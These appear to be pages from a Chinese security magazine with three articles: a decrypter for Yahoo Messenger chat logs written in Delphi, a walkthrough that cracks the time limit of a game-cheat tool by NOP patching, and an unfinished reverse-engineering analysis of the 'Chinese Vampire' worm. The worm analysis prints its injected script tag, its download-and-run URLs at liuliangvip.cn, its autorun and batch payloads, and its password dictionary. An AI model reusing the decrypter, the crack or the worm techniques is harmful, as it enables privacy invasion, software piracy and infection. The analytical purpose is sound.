进行了三次读取文件的操作，在第三次读取 4 个字节后将其与 `0x7FF` 对比，小于等于 `0x7FF` 就跳转，否则赋值为 `0x7FF`。这里最后读取的 4 个字节其实是加密字符串的长度。程序判断字符串是否超过某长度，如果不超过则继续，否则就截取一部分进行读取（在后面应该会有个大循环）。

```asm
004D6F62  mov eax,dword ptr [ebp+8]
004D6F65  lea ecx,[esi+1C]
004D6F68  mov byte ptr [ebp+eax-884],bl
004D6F6F  call dword ptr [<&MSVCP71.std::basic_istream...>]
```

接着读取当前用户名，为以后的解密做准备。

```asm
004D6F75  push eax ; 用户名
004D6F76  push dword ptr [ebp-888] ; 加密字符串长度
004D6F7C  lea eax,[ebp-884]
004D6F82  push eax ; 加密字符串地址
004D6F83  mov ecx,esi
004D6F85  call 004D68CF ; 解密字符串
```

到关键的地方了，这里首先 push 了三个重要内容：用户名、加密字符串长度和加密字符串地址。然后调用了 `Call 004D68CF`，一般情况 call 内部就应该是解密过程了，按 F7 键跟进。

里面的代码页很清爽，首先判断加密内容与获取的加密长度不为空，然后获取用户名长度，获取到就略过跳转执行下面的循环。先提取用户名的第一个字符与加密的第一个字符进行异或，然后计数器自己加 1 并且与 key（用户名）长度求余，利用求余值获取下一个 key 字符。如此反复即可实现对雅虎通聊天记录的加密字符串进行解密。

```asm
004D68CF  push ebp
004D68D0  mov ebp,esp
004D68D2  push ebx
004D68D3  mov ebx,dword ptr [ebp+8]
004D68D6  push esi
004D68D7  xor esi,esi
004D68D9  cmp ebx,esi
004D68DB  je short 004D690D
004D68DD  cmp dword ptr [ebp+C],esi
004D68E0  je short 004D690D
004D68E2  push edi
004D68E3  mov edi,dword ptr [ebp+10]
004D68E7  call <jmp.&MSVCR71.strlen>
004D68ED  xor ecx,ecx
004D68EF  cmp dword ptr [ebp+C],ecx
004D68F2  mov dword ptr [ebp+8],eax
004D68F5  jbe short 004D690C
```

```pascal
procedure Encrypt(pBuffer: PByte; iBufferLen: Integer; pKey: PChar; iKeyLen: Integer);
var
  i, t: Integer;
  pTemp: PByte;
begin
  t:=0;
  for i:=0 to iBufferLen-1 do
  begin
    pTemp:= PByte(DWORD(pKey) + DWORD(t));
    pBuffer^:= pBuffer^ xor pTemp^;
    t:= (t+1) mod iKeyLen;
    inc(pBuffer);
  end;
end;

procedure ProcessCrypt(sFile: String; CMemo: TMemo; username: PChar);
var
  fFile: TFileStream;
  iFileLen, iInfoLen: Integer;
  s: array [0..MAX_PATH] of char;
  slen: Integer;
  pass: string;
begin
  fFile:= TFileStream.Create(sFile, fmOpenRead);
  iFileLen:= fFile.Size;
  ZeroMemory(Pointer(@s), MAX_PATH);
  i:= 0;
  while i < iFileLen do
  begin
    i:= i + $20;
    fFile.Seek(i, soBeginning);
    fFile.Read(iInfoLen, 4);
    fFile.Read(s, iInfoLen);
    Encrypt(PByte(@s), iInfoLen, username, Length(username));
    slen:= pos('>', String(s));
    if slen > 0 then
      pass:= copy(String(s), slen+1, Length(String(s)));
    CMemo.Lines.Add(pass);
    i:= i + iInfoLen + 8;
  end;
  fFile.Free;
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
  if (OpenDialog1.Execute) then
    ProcessCrypt(OpenDialog1.FileName, Memo1, PChar(Edit1.Text));
end;
```

至此完成了对雅虎通的聊天记录解密的分析，总结一下：首先读取文件并提取第 4 个 4 字节长度为加密字符串长度，并且获取长度后的字符串，在解密过程中首先获取当前用户的名称与长度，然后提取名称字符串与加密字符串一一异或，异或后的字符串即解密后的字符串。

## 代码编写

分析完文件还原原理，实现程序编写就不是那么难了。Delphi 界面控件如图 8 所示。


解密过程首先填写 Yahoo 用户名作为解密 key，然后单击“解密”按钮，这时就会弹出对话框让选择要解密的文件，选择完之后程序就自动解密加密信息并输出到解密信息中。程序代码如下：

- 前置知识：无
- 关键字：Web 游戏、三国、外挂破解

# Web 游戏傲视三国外挂破解


文/图 孙嘉骏

傲视天地是一款由上海鑫韬网络科技有限公司耗时两年精心打造的新一代战争策略类网页游戏。在玩游戏的过程中不免重复的建筑升级、武将升级，很麻烦，于是在网上找了许久，总算找到了游戏的一款外挂软件来辅助使用。可没想到，仅仅用了 10 分钟，软件就弹出了使用时间过期、请联系作者的窗口，然后外挂软件就关闭了。唉，此时可谓相当不快啊，但转眼一看这种软件的反破解设计应该不是很复杂，于是就尝试进行了“破解”，记下破解思路与大家分享。

先看看软件，运行界面如图 1 所示。


图 1

我们进入游戏菜单设置完以后，单击“开始运行”按钮，过一会就会弹出提示过期窗口，如图 2 所示。


图 2

既然是单击“开始运行”按钮后程序弹出一个窗口，那么我们就应该可以找到一个断点，使程序断在弹出窗口之前，然后再对是否弹出窗口的条件进行分析，如图 2 所示。程序提示到期，那么就应该和系统的时间有直接关系了。我们先运行程序，再用 OllyDbg 加载程序……于是我们在此类函数上下一个断点 `bp CreateWindow`（有的 OllyDbg 识别不出来，可以试一下其他两个函数）。我们按 Alt+B 组合键打开断点菜单，可以看到已有断点 `0x77D507EA`，如图 3 所示。


图 3

然后单击“开始运行”按钮，程序也就理所应当地断下来了，如图 4 所示。

```asm
77D507E6 55            push ebp
77D507E7 8BEC          mov ebp, esp
77D507EF 833D ...      cmp dword ptr [...], 0
77D507F6 74 24         je ...
```

图 4

在此段代码下面不远处 `0x77D5082A` 就可以看到 `Call MessageBoxA` 这句代码了……我们按 Alt+K 组合键打开 OllyDbg 的堆栈调用窗口，如图 5 所示。


图 5

可以看到是 krnln 里面的一个函数调用了 MessageBoxA，然后又是“复件-傲”调用了 krnln 的函数。等于是 `krnln.10028EB6 → 外挂的 0x4269E3 → 外挂的 0x426BB5 → krnln.10028E37 → MessageBoxA`。打开软件安装目录可以看到 krnln.fn 文件……我们按 Alt+M 打开内存视图，看到如图 6 所示界面。

```text
00400000 00001000 ... PE 文件头
00401000 00031000 ... .text
00432000 00031000 ... .rdata
00403000 00025000 ... .data
00428000 00007000 ... .rsrc
```

图 6

也就是说，程序的一些代码段是保存在数据段中的……我们就在 `krnln.10028EB6` 下断点，如图 7 所示，单步运行总会运行到外挂程序保存在数据段中的代码中，重新载入跟踪整个过程。

```asm
10028EB4  ...
10028EB6  ...
```

图 7

重新载入后，单击“开始运行”按钮，程序断在了 `0x10028EB6` 处，我们单步步入调试，进入到如下代码段（省略部分）：

```asm
004268D2 55             push ebp
004268D3 8BEC           mov ebp, esp
004268D5 81EC08000000   sub esp, 8
...
004269D6 E8 ...         call 00420EC6
004269E3 E8A8000000     call 00426A90
```

从开始到外挂的 `0x4269E3` 处，我们可以看到这部分代码中并没有什么判断之类的跳转，顺序执行到了外挂的 `0x4269E3`。也就是说，程序流程的判断应该没有在这一部分中，所以我们在 `004269E3` 处继续单步步入调试。

单步调试运行到如下位置：

```asm
00426B5D    E8 64030000    call 00426FC6
// 调用函数进行判断，返回值到 eax 中
00426B62    83C4 10        add esp, 10
00426B65    8945 DC        mov dword ptr [ebp-24], eax
00426B68    837D DC 07     cmp dword ptr [ebp-24], 7
00426B6C    0F8F 07000000  jg 00426B79
00426B72    B8 01000000    mov eax, 1
00426B77    EB 02          jmp short 00426B7B
00426B79    33C0           xor eax, eax
00426B7B    85C0           test eax, eax
00426B7D    0F84 0A000000  je 00426B8D
...
```

通过上面的分析，我们知道了是在 `0x00426B5D` 处调用了函数，通过对函数的返回值判断来决定是否运行到 `0x00426BB5` 处，跳转代码则是 `jg 00426B79`。我们只要把该跳转指令改为空操作即可。

```text
0001BC20  A2 BC 00 00 83 C4 04 68 03 00 00 80 52 50 68 01
0001BC30  00 00 00 BB F4 01 00 00 E8 99 BC 00 00 B3 C4 10
0001BC40  89 45 DC 83 7D DC 08 0F 8F 07 00 00 00 B8 01 00
0001BC50  00 00 EB 02 33 C0 85 C0 0F 84 35 00 00 00 6A 00
0001BC60  6A 00 6A 00 68 01 03 00 80 6A 00 68 00 00 00 00
```

图 8

修改为 `0x90`；如图 9 所示。

```text
0001BC20  A2 BC 00 00 83 C4 04 68 03 00 00 80 52 50 68 01
0001BC30  00 00 00 BB F4 01 00 00 E8 99 BC 00 00 B3 C4 10
0001BC40  89 45 DC 83 7D DC 08 90 90 90 90 90 B8 01 00
0001BC50  00 00 EB 02 33 C0 85 C0 0F 84 35 00 00 00 6A 00
0001BC60  6A 00 6A 00 68 01 03 00 80 6A 00 68 00 00 00 00
```

图 9

## 总结

总之就是先要找到程序切入点（可以说是断点），然后根据断点判断出程序的运行流程，找到判断条件。最后就是改变整个程序的运行流程了。注意：对于最后一步，如果程序加了壳的话，直接修改程序二进制为 `0x90` 恐怕就不行了，因为在程序运行的开始是要对程序中的代码进行解密的（解壳），那么 `0x90` 就不知道被解密变成了怎样的数据了。

- 前置知识：汇编
- 关键词：中华吸血鬼、蠕虫、逆向

# 泡丁解毒之中华吸血鬼分析

文/图 dragonltx


“中华吸血鬼”是个蠕虫病毒，病毒通过 U 盘、局域网弱密码猜解、网页挂马、DLL 劫持等方式传播。该病毒会在 `%systemroot%/Tasks/` 中释放多个病毒文件；通过修改注册表键值实现开机自动启动。为了躲避杀毒软件查杀，该病毒还会关闭和破坏多种主流杀毒软件和安全工具，并且会屏蔽常见的安全网站。病毒会每隔 `360000ms` 下载一次新病毒到本地运行，达到其不断更新的目的。

还会删除 Windows 目录中 help 下的所有文件，计算机一旦感染此病毒，可能会给系统带来很大的安全威胁。带着学习和过招的态度，我找到了吸血鬼 2.1 病毒样本，并对它进行“泡丁解毒”探究究竟。首先用 PEiD 对病毒样本 `unpacked.exe` 查壳，发现该病毒没有加壳，如图 1 所示。


图 1

```asm
00405FF8  E8 23CEFFFF   call 00402E20
```

按 F7 键跟进，进入病毒程序的初始化代码，病毒首先创建一个名称为“中华吸血鬼 2.1”的互斥量。

```asm
00402E20 53              push ebx
00402E21 56              push esi
00402E22 57              push edi
00402E23 68 141F4000     push 00401F14 ; 中华吸血鬼2.1
...
call [<&KERNEL32.CreateMutexA>]
```

然后病毒调用 `RegDeleteKeyA` 函数删除注册表键 `SOFTWARE\Microsoft\Active Setup\Installed Components\{H9I12RB03-AB-B7O7-11d2-9CBD-0000FS7AH6-9E2121BHJLK}`，如下所示：

```asm
00402E4F 55              push ebp
00402E50 68 A81E4000     push 00401EA8 ; Subkey
...
call [<&ADVAPI32.RegDeleteKeyA>]
```

接下来病毒开始露出它最恶毒的面目，创建 15 个线程来完成各种恶意破坏，是本篇文章的核心部分，下面就一个线程一个线程地来分析病毒所使用的“十八般武艺”。

## 线程一：00403278 处

创建一个进程快照，代码如下：

```asm
00403290  BE F01F4000    mov esi, 00401FF0 ; "360tray.exe"
...
004032B4  6A 02          push 2 ; TH32CS_SNAPPROCESS
```

```asm
004032B6  8945 F0        mov dword ptr [ebp-10], eax
004032B9  A5             movs dword ptr es:[edi], dword ptr [esi]
004032BA  E8 FB2B0000    call <CreateToolhelp32Snapshot>
```

得到快照句柄后，调用 `Process32First` 和 `Process32Next` 函数遍历进程，代码如下：

```asm
004032CE 8BF8           mov edi, eax
...
call <Process32First>
...
call <Process32Next>
```

将得到的进程名与 `360tray.exe`、`ost.exe`、`AST.exe` 进行比较，当匹配时调用 `TerminateProcess` 来结束程序。

## 线程二：004030B6 处

获取系统目录，代码如下：

```asm
00403134 56             push esi ; BufSize
00403136 ...            call <GetWindowsDirectoryA>
...
00403146 ...            call <GetModuleFileNameA>
```

之后执行一个子函数调用 `00403043`，功能是将病毒文件内容写入到 `csrss.exe` 中，代码如下：

```asm
00403043 55             push ebp
...
path="C:\Documents and Settings\...\unpacked.exe"
call <fopen>
...
path="C:\WINDOWS\Tasks\csrss.exe"
call <fopen>
```

```asm
0040307C 56                push esi
0040307D 7526              jnz short 004030A5
0040307F 6A01              push 1
00403081 8D85FCFEFFFF      lea eax, dword ptr [ebp-104]
...
0040309B E8 2C2E0000       call <jmp.&MSVCRT.fwrite>
004030A0 83C420            add esp, 20
004030A3 EB D3             jmp short 00403078
004030A5 E8 1C2F0000       call <jmp.&MSVCRT...>
```

得到系统目录路径后，向目录中创建 `killme.txt` 批处理，写入信息，代码如下：

```asm
00403212 68 BC1F4000       push 00401FBC ; mode = "w"
00403217 68 C41F4000       push 00401FC4 ; path = "c:\killme.bat"
0040321C E8 B72C0000       call <jmp.&MSVCRT.fopen>
...
0040323D E8 A82C0000       call <jmp.&MSVCRT.sprintf>
0040324A E8 952C0000       call <jmp.&MSVCRT.fputs>
00403250 E8 712C0000       call <jmp.&MSVCRT.fclose>
```

`killme.txt` 内容如下：

```bat
ipconfig
del "C:\Documents and Settings\...\2.2\unpacked.exe"
start C:\WINDOWS\Tasks\csrss.exe
del %0
```

调用 `WinExec` 隐蔽执行 `killme.txt`，删除 `unpacked.exe`，并且启动 `csrss.exe`，并且 `csrss.exe` 是到系统任务中达到开机自启动的目的。

## 线索三：004033AC 处

当在 `004033AC` 处下断点时，按 F9 键到断点时，程序直接结束。这里病毒耍了个小花招：原来上一个线程已经把 `unpacked.exe` 删除了，因此调试这个线程时就直接结束。将调用 `CreateThread` 函数执行线程二的代码 NOP 掉，这样就可以继续调试下面的线程了，并且保存，以便以后继续调试。

```asm
00402E85 56                push esi
00402E86 56                push esi
00402E87 56                push esi
00402E88 68 B6304000       push 004030B6
00402E8D 56                push esi
00402E8E 56                push esi
00402E8F 90                nop
00402E90 90                nop
```

跳到 `004033AC` 处，首先获得 `PostMessageA` 的地址，然后调用 `Sleep` 函数休眠 3s。接下来调用 `GetCursorPos` 获得光标所在位置的坐标，接着调用 `WindowFromPoint` 来获得光标坐标的窗口句柄，代码如下：

```asm
004033FA 50                push eax ; pPoint
004033FB FF15 44114000     call dword ptr [<&USER32.GetCursorPos>]
00403401 FF75F8            push dword ptr [ebp-8] ; pt.Y
00403404 FF75F4            push dword ptr [ebp-C] ; pt.X
00403407 FF15 48114000     call dword ptr [<&USER32.WindowFromPoint>]
```

接下来调用 `GetWindowTextA` 函数来获取窗口标题，代码如下：

```asm
00403447 68 04010000       push 104 ; Count=104(260)
0040344C 50                push eax ; Buffer
0040344D 57                push edi ; hWnd
0040344E FF15 50114000     call dword ptr [<&USER32.GetWindowTextA>]
```

如果桌面上窗口标题是：杀毒、worm、卡巴斯基、超级巡警、江民、金山、Anti、Virus、Firewall、检测、Mcafee、病毒、查杀、狙剑、防火墙、主动防御、微点、防御、系统保护、绿鹰、木马、上报、举报、瑞星、进程、系统安全、Process、NOD32、专杀、安全卫士，则代码如下：

```asm
00403490 68 E0214000       push 004021E0 ; s2 = "NOD32"
00403495 50                push eax ; s1
00403496 E8 552A0000       call <jmp.&MSVCRT.strstr>
```

如果是就结束，结束不掉的话一直弹出一个警告直到这些软件被关掉，代码如下，效果如图 2 所示。

```asm
004037CE 50                push eax ; <%s>
004037CF 8D85F0FEFFFF      lea eax, dword ptr [ebp-110]
004037D5 50                push eax ; <%s>
004037D6 8D85E8FCFFFF      lea eax, dword ptr [ebp-318]
004037DC 68 14204000       push 00402014 ; format
...
004037F0 6A10              push 10 ; Style
MB_OK|MB_ICONHAND|MB_APPLMODAL
```

```asm
004037F2 ... push 00402004 ; "Title="
"windows 盗版验证"
004037F7 ... push eax ; "Text"
004037F8 ... push ebx ; hOwner
004037F9 ... call ... USER32.MessageBoxA
```

图 2

## 线程四：00405E10 处

跳到 00405E10 处，此处是一小段数据，在 00405E3C 处才是源代码。原来这个线程是用来专门对抗冰刃的，通过 FindWindowExA 得到当前正在工作的窗口的句柄，代码如下：

```asm
00405E43 ... call GetForegroundWindow
00405E45 ... push [ebp+C] ; Title=""
00405E48 ... xor ebx, ebx
00405E4A ... mov edi, eax
00405E4C ... push [ebp+8] ; Class="AfxControlBar42s"
00405E4F ... push ebx ; hAfterWnd=NULL
00405E50 ... push edi ; hParent
00405E51 ... call USER32.FindWindowExA
```

发现标题是跟冰刃有关的，就调用 PostMessageA 发送 WM_CLOSE 来结束冰刃，代码如下：

```asm
00405E5B ... push ebx ; lParam=>0
00405E5C ... push ebx ; wParam=>0
00405E5D ... push 10 ; Message=WM_CLOSE
00405E5F ... push edi ; hWnd
00405E60 ... call USER32.PostMessageA
```

仅仅发送 WM_CLOSE 是不能结束冰刃的，冰刃会弹出一个是否结束冰刃的对话框。于是病毒就采用下面的方法来模拟按 Enter 键。

```asm
00405E9B ... push ebx ; dwExtraInfo=>0
00405E9C ... push ebx ; dwFlags=>0
00405E9D ... push ebx ; bScanCode=>0
00405E9E ... push 0D ; bVk=VK_RETURN
00405EA0 ... call USER32.keybd_event
```

这里使用到 keybd_event 函数，函数原型如下：

```c
VOID keybd_event(BYTE bVk, BYTE bScan, DWORD dwFlags, DWORD dwExtraInfo)
```

参数说明：

- bVk：定义一个虚拟键码。键码值必须在 1～254 之间。
- bScan：定义该键的硬件扫描码。
- dwFlags：定义函数操作各个方面的一个标志位集。应用程序可使用如下预定义常数的组合设置标志位。
  - KEYEVENTF_EXTENDEDKEY：若指定该值，则扫描码前一个值为 0xE0（224）的前缀字节。
  - KEYEVENTF_KEYUP：若指定该值，该键将被释放；若未指定该值，该键将被按下。
- dwExtraInfo：定义与击键相关的附加的 32 位值。

该方法比较新颖，使用 keybd_event 模拟按 Enter 键并结束冰刃，值得学习。

## 线程五：00405CE0 处

删除 `HKLM\SOFTWARE\Microsoft\Windows Script Host\Settings` 键和 `SOFTWARE\Microsoft\ActiveSetup\Installed Components\{H9I12RB03-AB-B70-7-11d2-9CBD-0000F57AH6-9E2121BHJLK}` 键，代码如下：

```asm
00405D1D ... push 00402D1C ; "SOFTWARE\\Microsoft\\Windows Script Host\\Settings"
00405D22 ... rep stos dword ptr es:[edi]
00405D24 ... push esi
00405D25 ... call ADVAPI32.RegDeleteKeyA
...
00405D2C ... push edi
00405D2D ... push 80000001
00405D32 ... call ADVAPI32.RegDeleteKeyA
```

然后又创建 `[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Active Setup\Installed Components\{H9I12RB03-AB-B70-7-11d2-9CBD-0000F57AH6-9E2121BHJLK}]` 键，指向“系统设置->%windir%\Tasks\hackshen.vbs”。

```asm
00405D37 ... push eax ; pHandle
00405D38 ... push edi ; Subkey
00405D39 ... push esi ; hKey=HKEY_LOCAL_MACHINE
00405D3A ... call ADVAPI32.RegCreateKeyA
...
00405D51 ... push ecx ; Length
00405D52 ... push edx ; Value="系统设置"
00405D53 ... push 1 ; REG_SZ
...
00405D59 ... call ADVAPI32.RegSetValueA
...
00405D74 ... push 2 ; REG_EXPAND_SZ
00405D78 ... push 0042FD00 ; ValueName="stubpath"
00405D7D ... push dword ptr [ebp-4]
00405D80 ... call dword ptr [<&ADVAPI32.RegSetValueExA>]
...
00405E03 ... call <jmp.&MSVCRT.fclose>
```

VBS 内容如下：

```vb
On Error Resume Next
Sct rs=createObject("Wscript.shell")
rs.run "%%windir%%\Tasks\csrss.exe"
```

## 线程1：00403BC5 处

每隔 2s 创建一个线程，线程函数指向 00403B92 处。线程函数创建一个 HDM 的互斥量，然后调用 004039AC 子函数，代码如下：

```asm
00403BC5  push esi
00403BC8  push 7D0 ; Timeout=2000ms
00403BCD  call dword ptr [<&KERNEL32.Sleep>]
...
00403BB3  call dword ptr [<&USER32.EnumChildWindows>]
```

获取类名为 `#32770` 的窗口，并且试图发送消息（具体消息类型未验证，推测通过 QQ 之类聊天工具传播）。

```asm
00403AF1  push -1
00403AF3  mov edi,0B1
00403AF8  push ebx
00403AF9  push edi ; Message=>EM_SETSEL
00403AFA  push dword ptr [ebp-4]
00403AFD  call esi ; SendMessageA
...
00403B81  push ebx ; lParam
00403B82  push ebx ; wParam
00403B83  push 0C2 ; Message=EM_REPLACESEL
00403B88  push dword ptr [ebp-4]
00403B8B  call esi ; SendMessageA
```

```asm
0040403E  push eax
0040403F  call edi ; lstrcmpA
00404041  test eax,eax
00404043  je short 0040404F
00404045  lea eax,[ebp-4]
00404048  push eax
00404049  call 00403C13
...
00403C69  push eax ; FileName
00403C6A  call dword ptr [FindFirstFileA]
00403C70  cmp eax,-1
00403C76  jnz short 00403C7F
00403C87  call dword ptr [FindNextFileA]
```

## 结果二：00403FBA 处

调用 GetLogicalDriveStringsA 函数获取一个字串，其中包含了当前所有逻辑驱动器的根驱动器路径。调用 FindFirstFileA 和 FindNextFileA 函数来循环查找从 D 盘开始的所有盘符中的文件，代码如下：

```asm
00403FEF  push eax ; Buffer
00403FF0  push 100 ; BufSize=100
00403FF5  call dword ptr [GetLogicalDriveStringsA]
00403FFB  mov ebx,eax
00403FFD  xor esi,esi
00403FFF  test ebx,ebx
00404001  jle short 00404054
...
0040401A  push 00402264 ; "A:"
0040402F  push eax
00404030  call edi ; lstrcmpA
00404034  je short 0040404F
00404039  push 00402260 ; "C:"
```

其中调用 403BE5 和 403BFC 两个子函数，都是提取文件名后缀的函数。

```asm
00403BFC  mov edx,[esp+4]
00403C00  push edi
00403C01  mov edi,edx
00403C03  or ecx,FFFFFFFF
00403C06  xor eax,eax
00403C08  repne scasb
00403C0A  not ecx
00403C0C  dec ecx
00403C0D  pop edi
00403C0E  lea eax,[ecx+edx-4] ; .BIN
00403C12  retn
```

如果后缀名是 `html`、`HTML`、`htm`、`HTM`、`asp`、`aspx`、`php`、`jsp`，就写入：

`"<script language=\"javascript\" src=\"http://www.liuliangvip.cn/down/index.htm\"></script>"`

这样当每次打开这些文档时会被加载执行。打开文件时，会自动连接到 `http://www.liuliangvip.cn/down/index.htm` 这个网站。

如果不是，就检查后缀名是否是 `gho`、`GHO`、`Gho`，是就删除，用户不能通过 ghost 文件来恢复系统，这招够毒的。

## 红薯刀1：00404241 处

有两处跳转：`0040405E` 和 `0040422A`，代码如下：

```asm
00404241  call 0040405E
00404246  call 0040422A
0040424B  xor eax,eax
0040424D  retn 4
...
0040405E  push 104
00404063  push 0040760C
00404068  push 0
0040406A  call GetModuleFileNameA
00404070  retn
```

查看数据面板，可以看到路径，如图 3 所示。

`0040422A`：每隔 1s 重新调用 `00404071`，代码如下：

```asm
0040422A  call 00404071
0040422F  test eax,eax
00404231  jnz short 00404240
00404233  push 3E8
00404238  call Sleep
0040423E  jmp short 0040422A
00404240  retn
```

`00404071`：调用 GetLogicalDrives，再调用 GetDriveType 来获得逻辑驱动器的属性。

```asm
004040BC  push ebx ; RootPathName="C:\"
...
004040D7  call GetDriveTypeA
004040DD  cmp eax,2
004040E0  jne short 004040F6
004040E2  xor eax,eax
004040E4  push eax ; lpFileSystemNameSize=>NULL
004040E5  push eax ; lpFileSystem
004040E6  push eax ; lpMaxFilenameLength
004040E7  push eax ; lpVolumeSerialNumber
004040E8  push eax ; lpMaxVolumeNameSize
004040E9  push eax ; lpVolumeNameBuffer
004040EA  push ebx ; RootPathName
004040EC  call GetVolumeInformationA
```

如果是可移动磁盘的话，又有 `00404164` 和 `004042E6` 两处跳转，代码如下：

```asm
00404164:
0040416D  push 0
0040416F  call time
00404174  push eax
00404175  call srand
...
0040418B  call rand
00404190  push 3E
...
00404198  cmp esi,0A
...
004041A5  jl short 0040418B
```

如果存在 `autorun.inf` 这个文件夹，就把文件夹名用一个随机名字替换；如果没有的话生成 `autorun.inf` 文件，设置成只读、隐藏、系统属性，代码如下：

```asm
004041F4  push ebx ; FileName="C:\autorun.inf"
004041F5  call GetFileAttributesA
004041FB  cmp eax,10
004041FE  jnz short 0040420A
00404200  push edi ; NewName="C:\FV5Jz39xs0"
00404201  push ebx ; ExistingName="C:\autorun.inf"
00404202  call MoveFileA
0040420A  call 00404136
0040420F  push 00402270 ; mode
00404214  push ebx
00404215  call <jmp.&MSVCRT.fopen>
...
004042D9  push 7 ; FileAttributes=READONLY|HIDDEN|SYSTEM
004042DB  push ebx ; FileName
004042DC  call dword ptr [<&KERNEL32.SetFileAttributesA>]
```

autorun 文件内容如下：

```ini
[autorun]
OPEN=recycle.{645FF040-5081-101B-9F08-00AA002F954E}\GHOSTBAK.exe
shell\open=打开(&O)
shell\open\Command=recycle.{645FF040-5081-101B-9F08-00AA002F954E}\GHOSTBAK.exe
shell\open\Default=1
shell\explore=资源管理器(&X)
shell\explore\command=recycle.{645FF040-5081-101B-9F08-00AA002F954E}\GHOSTBAK.exe
```

`004042E6`：创建 `recycle.{645FF040-5081-101B-9F08-00AA002F954E}` 这个新目录，这个目录的图标是回收站的图标。将病毒文件复制到该文件夹里，改名为 `GHOSTBAK.exe`，诱使用户点击，使病毒文件执行。代码如下：

```asm
004042E6  sub esp,104
004042EC  push ebx
004042ED  push ebp
...
00404306  call dword ptr [<&KERNEL32.CreateDirectoryA>]
...
00404312  call dword ptr [<&KERNEL32.lstrcpyA>]
...
0040433F  mov edi,eax
00404341  push eax ; ConcatString
00404342  shr ecx,2
00404345  rep movs dword ptr es:[edi],dword ptr [esi]
...
0040435C  call dword ptr [<&KERNEL32.CopyFileA>]
00404362  push 7 ; FileAttributes=READONLY|HIDDEN|SYSTEM
00404365  call dword ptr [<&KERNEL32.SetFileAttributesA>]
...
00404372  call dword ptr [<&KERNEL32.CreateDirectoryA>]
...
00404382  retn
```

## 续断点：004045C7 处

调用 LoadLibrary 加载 Urlmon.dll，代码如下：

```asm
0040463E  push eax ; FileName="urlmon.dll"
0040463F  call dword ptr [<&KERNEL32.LoadLibraryA>]
```

再调用 GetProcAddress 获取 URLDownloadToFileA 函数的地址。

```asm
00404672  push eax ; ProcNameOrOrdinal="URLDownloadToFileA"
00404673  push dword ptr [40746C] ; hModule
00404679  call dword ptr [<&KERNEL32.GetProcAddress>]
```

然后是两个子函数调用 `004043B2` 和 `0043D5`。`004043B2`：用 URLDownloadToFileA 函数将 `http://www.liuliangvip.cn/down/wincap.exe` 地址处的 wincap.exe 下载到本地 `C:\WINDOWS\system32\wincap.exe`，然后调用 WinExec 隐蔽执行 wincap.exe，代码如下：

```asm
004043B2  push esi
004043B3  push 0
004043B5  mov esi,00406174 ; "C:\WINDOWS\system32\wincap.exe"
004043BA  push 0
004043BC  push esi
004043BD  push 00401894 ; "http://www.liuliangvip.cn/down/wincap.exe"
```

```asm
004043C2  push 0
004043C4  call URLDownloadToFileA
...
"http://www.liuliangvip.cn/down/arp.exe"
"C:\WINDOWS\system32\arps.com"
...
```

创建线程 0040449C，获取本机 IP 地址，然后把所在网段内的 `.2~.255` 的机器作为欺骗对象，由系统目录下的 `arps.com` 执行命令对局域网内机器进行 ARP 欺骗，代码如下：

```asm
004044F2  push 80
004044F8  call gethostname
00404505  call gethostbyname
...
sprintf "%s -idx 0 -ip %s -port 80 -insert ..."
...
WinExec("C:\WINDOWS\system32\arps.com ...")
```

## 线程十：00404798 处

以 administrator 为用户名，对局域网内其他机器进行密码猜解，病毒猜解的密码字典如下：woaini、baby、asdf、NULL、angel、asdfgh、1314520、5201314、cccnima、88888、bbbbbb、12345678、memory、abc123、qwerty、123456、password、enier、hack、xpuser、money、yeah、Time、game、user、home、alex、guest、admin、test、administrator、movie、root、love 等。然后调用 0040475F 和 00404AAB 子函数。

### 0040475F：调用 WSAStartup

```asm
0040476E  push eax
0040476F  push 202
00404774  call WSAStartup
```

### 00404AAB：调用 mpr.dll 中的 WNetAddConnection2 函数创建同一个网络资源的连接，对密码进行猜解

```asm
00404B73  push ebx
00404B74  mov [ebp-20], ebx
...
00404B83  push [ebp+10] ; Administrator 用户名
...
call WNetAddConnection2
```

将地址主机在每个盘里复制 `hackshen.exe`，然后调用 WinExec 隐蔽执行 `"at \\169.254.112.1 16:47 F:\hackshen.exe"`，把病毒文件复制到 `"169.254.112.1\admin$\hackshen.exe"` 中。

## 线程十一：00405513 处

调用 00405530 子函数，代码如下：

```asm
00405530  GetWindowDirectoryA
复制病毒文件到 "C:\WINDOWS\Tasks\绿化.bat"
CopyFileA(...)
00405617  cmp ...
...
```

```asm
00405653  8D45FC        lea eax, dword ptr [ebp-4]
00405656  50            push eax
00405657  E8 10000000   call 0040566C
```

0040566C：调用 `ExpandEnvironmentStrings` 扩充环境字符串，搜索盘中后缀名为 rar、zip、tgz、cab、tar 的文件，调用 WinExec 执行 `"C:\Program Files\WinRAR\Rar.exe" e -p a "E:\test.rar" C:\WINDOWS\Tasks\绿化.bat`，将病毒文件加入到压缩文件中，当用户解压文件时，诱使用户单击绿化.bat 文件执行病毒程序，真是陷阱多多，阴招不断。

## 线程十二：004050E1 处

下载各种木马，代码如下：

```asm
0040510F  BE D8274000   mov esi, 004027D8
ASCII "http://www.liuliangvip.cn/down/1.exe"    ; 木马程序

00405211  BE 78264000   mov esi, 00402678
ASCII "http://www.liuliangvip.cn/down/10.exe"   ; 木马程序

00405281  BB 5C714000   mov ebx, 0040715C
ASCII "C:\DOCUME~1\LOCALS~1\Temp\B3ipPrSrd.pif"

...（调用 GetTempPathA / srand / rand 生成随机文件名）...

ASCII "http://www.liuliangvip.cn/down/3.exe"
...（URLDownloadToFileA 下载木马并重命名为随机文件名）...
```

```asm
shell32.dll
00404E8E  FFD3          call ebx        ; LoadLibraryA
00404EE4  8B1D70104000  mov ebx, dword ptr [<KERNEL32.GetProcAddress>]
00404EEA  83C40C        add esp, 0C
00404EED  8DB5F8FDFFFF  lea eax, [ebp-208]
00404EF3  50            push eax        ; /ProcName = OrOrdinal=ShellExecute
00404EF4  FF3568744000  push dword ptr [407468] ; hModule = NULL
00404EFA  FFD3          call ebx        ; GetProcAddress

00404F2A  FF356C744000  push dword ptr [40746C]
00404F30  FFD3          call ebx
...
ASCII "C:\DOCUME~1\LOCALS~1\Temp\bx7EoJfi0B.pif"
ASCII "http://www.liuliangvip.cn/down/3.exe"
00404F42  FFD0          call eax        ; urlmon.URLDownloadToFileA
```

## 线程十三：00405A85 处

